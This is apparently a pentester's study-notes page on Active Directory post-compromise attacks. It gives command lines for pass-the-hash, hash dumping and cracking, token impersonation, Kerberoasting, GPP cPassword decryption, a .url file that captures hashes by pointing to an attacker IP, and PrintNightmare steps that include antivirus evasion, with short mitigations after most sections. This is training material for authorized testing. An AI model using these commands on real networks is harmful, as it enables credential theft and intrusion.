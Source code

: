 ```yaml
---
layout: default
title: 03. Active Directory Post Compromise
nav_order: 2
has_children: false
parent: Active Directory
grand_parent: Pentesting
---
```


## 03.Active Directory Post Compromise


### Pass The Hash

Pass The Password / Pass The Hash

You can pass NTLM hashes but not NTLMv2 hashes.

#### Using crackmapexec

[Source](https://wiki.porchetta.industries/)

Can be used with password:

```bash
crackmapexec smb $IP/$CIDR -u username -d EVIL_DOMAIN -p password
```

Or with hashes:

```bash
crackmapexec smb $IP/$CIDR -u username -H hash --local-auth
```

Accessing another instance pwned could be done using [`psexec.py`](https://github.com/fortra/impacket/blob/master/examples/psexec.py) :

```bash
psexec.py evil/username:password@target_ip
```

#### Dumping hashes

It requires access to another host.

Using [secretdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) we could retrieve hashes from host:

```bash
secretdump.py evil/username:password@target_ip
```

It gives the SAM hashes and the LSA secrets of the host.

#### Cracking the hashes

Using hashcat:

```bash
hashcat -m 1000 hashes.txt rockyou.txt -O 
```

#### Only passing the hash

We will use only the second part of the hash:

![](/writings/docs/assets/Hashes.png)

![](docs/assets/Hashes.png)

Using crackmapexec:
```bash
crackmapexec smb $IP/$CIDR -u "Username" -H <hash> --local-auth
```

We could try to get a shell access using only the hash and psexec:

```bash
psexec.py "username":@target_ip -hashes LMHASH:NTHASH
```

(`LMHASH:NTHASH` correspond to the full hash retrieve previously)

#### Mitigations

- Limit account reuse
- Utilize strong password
- Implement Privilege Access Management (PAM)


### Token Impersonation

Token are temporary key allowing access to system / network without having to provide credentials.

There is 2 types:
- Delegate - Create to login to a machine / using RDP
- Impersonate - "Non interractive", attaching network drive or domain logon script

#### Using Incognito

Require a shell on a machine.
From an existing metasploit session, we could use the load command to load the `incognito` tool inside our target.

Once the tool loaded, we could start by listing the tokens available: 

```bash
list_tokens -u
```

Then from this list we could select a user we want to impersonate:

```bash
impersonate_token evil\\administrator
```

Metasploit handle everything for us. 

#### Mitigation

- Limit user/group token creation permission
- Account tiering 
- Local admin restriction


### Kerberoasting 

![](/writings/docs/assets/Pasted%20image%2020230223184254.png)
![](docs/assets/Pasted%20image%2020230223184256.png)

#### Get SPNs & Dump hash

Using GetUserSPNs.py from Impact we could simply run: 

```bash
python3 GetUserSPNs.py <DOMAIN/username:password> -dc-ip $IP -request
```

We should receive the hash quickly.

##### Crack the hash

```bash
hashcat -m 13100 hashes.txt rockyou.txt
```

#### Mitigation

- Strong password
- Least Privilege 


### GPP / cPassword Attacks (MS14-025)

#### Explanation 

- Allow admin to create policy using embeded credentials.
- Encrypted and stored in file name cPassword
- The key was released by error 
- So password could be decripted
- Patched by MS14-025

[Source](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/)


#### Exploitation 

Our goal is to retrieve the `groups.xml` containing the cPasswords vulnerable to the attack. 
Then from this file we retrieve the hash and we just have to run: 

```bash
gpp-decrypt <hash>
```

Then with the credential we could try to retrive more information using: 
- psexec
- GetUserSPNs

### URL File Attacks

Require one of the following:

- Compromise user account
-  Open file share

#### Exploitation

Save the following file in a file name : `"@test.ur"`

```sh
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah 
IconFile=\\<your_ip>\%USERNAME%.icon 
IconIndex=1
```

Upload it to the share where you have the permission to read. 

Launch responder and you should start receiveing hashes. 

### PrintNightmare (CVE-2021-1675) Walkthrough

- [Python Code to RCE](https://github.com/cube0x0/CVE-2021-1675)
- [Powershell - Code to RCE](https://github.com/calebstewart/CVE-2021-1675)

#### Exploitation

1. Create the payload using msfvenom, the payload should be a `.dll`  file.
2. Wait for the session using netcat 
3. Expose the dll file via a samba server using impacket (must have smb2 support)
4. Run the python script to exploit (AV might detect it, so the payload might need to be encoded to bypass the AV)



### Mimikatz

[Repository](https://github.com/gentilkiwi/mimikatz)

- Tool to view and steal credential
- Generate Kerberoast ticket 
- Perform attacks (PassTheHash, SilverTicket, GoldenTicket, ...)
- Dumps credential stored in memory 




